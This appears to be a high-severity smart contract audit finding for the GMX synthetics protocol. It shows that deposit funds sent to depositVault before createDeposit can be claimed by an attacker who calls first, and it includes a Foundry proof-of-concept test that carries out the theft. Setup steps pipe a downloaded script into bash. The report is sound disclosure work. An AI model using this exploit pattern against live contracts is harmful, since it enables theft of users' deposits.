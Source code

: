 0xdeadbeef

high

# Deposit funds can be stolen

## Summary

Before a user deposits into the protocol using `createDeposit`, he needs to transfer funds to `depositVault`. In the current codebase the operations are not atomic (same transaction).

An attacker will be able to create deposits using the victims funds. (theft of funds)

## Vulnerability Detail

In order to deposit funds to the protocol a user needs to:
1. Transfer the short token
2. Transfer the long token
3. Transfer execution fee

After doing the above, the user will call `createDeposit` on the exchangeRouter.
https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/router/ExchangeRouter.sol#L115

The protocol extracts during `createDeposit` the amount of funds for the long/short token by comparing the previous snapshot of the token balance to the current balance.

https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/deposit/DepositUtils.sol#L63-L74

https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/bank/StrictBank.sol#L39-L44

Since there is no correlation between the deposit creator and the funds deposited, a hacker can simply create a deposit before the victim and use their funds. 

## Impact

Theft of user deposits

## Code Snippet

I have constructed an end-to-end POC in foundry. 

To get it running, first install foundry using the following command:
1. `curl -L https://foundry.paradigm.xyz | bash` (from https://book.getfoundry.sh/getting-started/installation#install-the-latest-release-by-using-foundryup)
4. If local node is not already running and contracts are not deployed, configured - execute the following:
```bash
npx hardhat node
```
3 Perform the following set of commands from the repository root.
```bash
rm -rf foundry; foundryup; mkdir foundry; cd foundry; forge init --no-commit
```
5. Add the following to `foundry/test/StealFunds.t.sol
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IExchangeRouter {
    function createDeposit(StealFunds.CreateDepositParams calldata params) external returns (bytes32);
}

interface IReader {
    function getMarket(address dataStore, address key) external view returns (Market.Props memory); 
}

interface IDataStore {
    function getBytes32(bytes32 key) external view returns (bytes32);
    function setUint(bytes32 key, uint256 value) external;
}
library Market {
    struct Props {
        address marketToken;
        address indexToken;
        address longToken;
        address shortToken;
    }
}

contract Callback is Test {
}

contract StealFunds is Test {
    struct CreateDepositParams {
        address receiver;
        address callbackContract;
        address market;
        address initialLongToken;
        address initialShortToken;
        address[] longTokenSwapPath;
        address[] shortTokenSwapPath;
        uint256 minMarketTokens;
        bool shouldUnwrapNativeToken;
        uint256 executionFee;
        uint256 callbackGasLimit;
    }

    uint256 public constant COMPACTED_64_BIT_LENGTH = 64;
    uint256 public constant COMPACTED_64_BITMASK = ~uint256(0) >> (256 - COMPACTED_64_BIT_LENGTH);
    
    uint256 public constant COMPACTED_32_BIT_LENGTH = 32;
    uint256 public constant COMPACTED_32_BITMASK = ~uint256(0) >> (256 - COMPACTED_32_BIT_LENGTH);

    uint256 public constant COMPACTED_8_BIT_LENGTH = 8;
    uint256 public constant COMPACTED_8_BITMASK = ~uint256(0) >> (256 - COMPACTED_8_BIT_LENGTH);

    IExchangeRouter EXCHANGE_ROUTER = IExchangeRouter(0x4bf010f1b9beDA5450a8dD702ED602A104ff65EE);
    address dataStore = 0x09635F643e140090A9A8Dcd712eD6285858ceBef;
    IReader reader = IReader(0xD49a0e9A4CD5979aE36840f542D2d7f02C4817Be);
    address WETH = 0x99bbA657f2BbC93c02D617f8bA121cB8Fc104Acf;
    address USDC = 0x9d4454B023096f34B160D6B654540c56A1F81688;
    address depositVault = 0xB0f05d25e41FbC2b52013099ED9616f1206Ae21B;
    address roleStore = 0x5FbDB2315678afecb367f032d93F642f64180aa3;
    address ROLE_ADMIN = 0xe1Fd27F4390DcBE165f4D60DBF821e4B9Bb02dEd;

    Callback callback = new Callback();

    using Market for Market.Props;


    function setUp() public {
    }
    function testStealFunds() external {
        // Setup market
        Market.Props memory market = reader.getMarket(dataStore, address(0xc50051e38C72DC671C6Ae48f1e278C1919343529));
        address marketWethUsdc = market.marketToken;
        address wethIndex = market.indexToken;
        address wethLong = market.longToken;
        address usdcShort = market.shortToken;

        // validate weth long usdc short index weth
        assertEq(WETH, wethLong);
        assertEq(WETH, wethIndex);
        assertEq(USDC, usdcShort);

        address[] memory addrArray; 

        // Create deposit params
        CreateDepositParams memory deposit = CreateDepositParams(
            address(this), // receiver
            address(callback), // callback 
            marketWethUsdc, // market
            wethLong, // inital longtoken
            usdcShort, // inital short token
            addrArray, // longtokenswappath
            addrArray, // shortokenswappath
            0, // minmarkettokens
            true,// shouldunwrapnativetoken
            1000, // executionfee
            2000000 // callbackGasLimit
        );
        address victim = address(0x1111);
        vm.deal(victim, 1000 ether);
        deal(WETH, victim, 1000 ether);
        deal(USDC, victim, 1000 ether);

        vm.startPrank(victim);
        WETH.call{value: 1000 ether}(abi.encodeWithSelector(bytes4(keccak256("deposit()"))));
        WETH.call(abi.encodeWithSelector(bytes4(keccak256("transfer(address,uint256)")), depositVault, 1000 ether));
        USDC.call(abi.encodeWithSelector(bytes4(keccak256("transfer(address,uint256)")), depositVault, 1000 ether));
        vm.stopPrank();

        // Create deposit before victim!
        bytes32 depositKeyHacker = EXCHANGE_ROUTER.createDeposit(deposit);

        // victim deposit will revert because the funds were used by the hacker
        vm.expectRevert();
        bytes32 depositKeyVictim = EXCHANGE_ROUTER.createDeposit(deposit);
    }
}

```
6. execute `forge test --fork-url="http://127.0.0.1:8545"  -v -m testStealFunds

## Tool used

VS code, foundry

Manual Review

## Recommendation

Consider requiring the depositor to "approve" funds instead of transferring them directly. 
Then the code can call `transferFrom(deposit.account(), depositVault, deposit.amount)`
